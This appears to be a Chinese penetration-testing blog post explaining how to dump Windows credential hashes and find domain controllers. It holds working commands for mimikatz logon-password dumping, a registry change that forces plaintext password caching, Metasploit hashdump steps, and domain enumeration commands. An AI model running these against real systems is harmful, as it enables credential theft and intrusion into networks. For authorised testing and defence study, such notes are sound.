 ```yaml
---
layout:     post
title:      Windows获取用户hash 以及 域控查找
subtitle:   简单记录一下 
date:       2021-02-22
author:     BY Diego
header-img: https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/5cf4cae0e7bce7210c066936.jpg
catalog: true
tags:
    - Windows
    - 域渗透
    - 渗透测试
---
```


## 获取windows 用户hash

因为系统不同 以及各自的策略不同 ，因此需要多个工具配合使用

### mimikatz.exe

该工具kali自带 拷贝出来直接用

![image-20210222122318484](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210222122318484.png)

```shell
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords full" "exit" 
```



> 另外，需要注意的是，当系统为win10或2012R2以上时，默认在内存缓存中禁止保存明文密码，如下图，密码字段显示为null，此时可以通过修改注册表的方式抓取明文，但需要用户重新登录后才能成功抓取

```shell
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
```



![image-20210214174140256](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210214174140256.png)



###  pwdump7

下载地址

https://www.tarasco.org/security/pwdump_7/

![image-20210214174340819](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210214174340819.png)



### getpass

直接运行即可

![image-20210214174707441](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210214174707441.png)



### QuarksPwDump

https://www.webshell.cc/4625.html

-h 查看用法

--dump-hash-local --with-history

![image-20210214181149766](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210214181149766.png)





### lazagne

挺强大的工具 🐂🍺

项目地址 https://github.com/AlessandroZ/LaZagne

支持的模块

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210215111414316.png)



使用 或者直接下载exe 亦或者自己编译

![image-20210215111334170](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210215111334170.png)



### metasploit

获取到shell之后 执行

```shell
run windows/gather/smart_hashdump
```



![image-20210215141154910](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210215141154910.png)



```
run hashdump
```

![image-20210215141819578](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210215141819578.png)





## 域控查找



1. 当域控 与dns 为同一服务器时 dns 服务器地址为 域控地址

2. nslookup -type=SRV   _ldap.\_tcp

   ![B64B212A39327C186F388D7E9D7878C6](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/B64B212A39327C186F388D7E9D7878C6.png)

3. net group "Domain Controllers" /domain

   ![5449F3A1A8C29A0BE2ABB2CD77AB412E](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/5449F3A1A8C29A0BE2ABB2CD77AB412E.png)

4. nltest /DCLIST:域名

   ![153472490C49CFB7E5F64A5E0CE51D55](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/153472490C49CFB7E5F64A5E0CE51D55.png)

5. net time /domain

   ![DEA0420B299ADFCCF74050B8EF0A7A83](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/DEA0420B299ADFCCF74050B8EF0A7A83.png)

6. set logon 列出以logon开头的变量

   ![9AE2FC2A3BE11CD5B2922EDDFFDA0B7A](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/9AE2FC2A3BE11CD5B2922EDDFFDA0B7A.png)

7. net view /domain:域
   ![A6703C4F86F83FEB455BBD69A164F256](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/A6703C4F86F83FEB455BBD69A164F256.png)

